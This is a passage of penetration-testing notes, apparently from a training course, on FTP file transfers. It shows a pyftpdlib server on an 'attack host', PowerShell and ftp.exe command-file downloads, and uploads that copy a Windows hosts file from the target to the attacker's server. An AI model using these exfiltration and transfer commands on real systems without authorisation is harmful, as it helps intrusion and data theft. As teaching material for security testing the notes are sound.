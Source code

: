 ### FTP Downloads
- **Installing FTP Server python3 module**
```bash
sudo pip3 install pyftpdlib
```
1. **Setting up a Python3 FTP Server**
```bash
sudo python3 -m pyftpdlib --port 21
```
2. **Transferring Files from an FTP Server Using Powershell**
```powershell
PS C:\carnifex17> (New-Object Net.WebClient).DownloadFile('ftp://13.13.13.13/file.txt', 'C:\Users\Public\ftp-file.txt')
```
3. **Create a Command File for the FTP Client and Download the Target File**
```bash
C:\carnifex17> echo open 13.13.13.13 > ftpcommand.txt
C:\carnifex17> echo USER anonymous >> ftpcommand.txt
C:\carnifex17> echo binary >> ftpcommand.txt
C:\carnifex17> echo GET file.txt >> ftpcommand.txt
C:\carnifex17> echo bye >> ftpcommand.txt
C:\carnifex17> ftp -v -n -s:ftpcommand.txt
ftp> open 13.13.13.13
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\carnifex17>more file.txt
This is a test file
```

### FTP Uploads
For this we would also use `peftpdlib` but we need to specify the option --write to allow clients to upload files to our attack host.
1. **Starting FTP Server**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
2. **Powershell Upload File**
```powershell
PS C:\carnifex17> (New-Object Net.WebClient).UploadFile('ftp://13.13.13.13/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
3. **Create a Command File for the FTP Client to Upload a File**
```powershell
C:\carnifex17> echo open 192.168.49.128 > ftpcommand.txt
C:\carnifex17> echo USER anonymous >> ftpcommand.txt
C:\carnifex17> echo binary >> ftpcommand.txt
C:\carnifex17> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\carnifex17> echo bye >> ftpcommand.txt
C:\carnifex17> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
## Linux File Transfers
### Base64 Encode & Decode
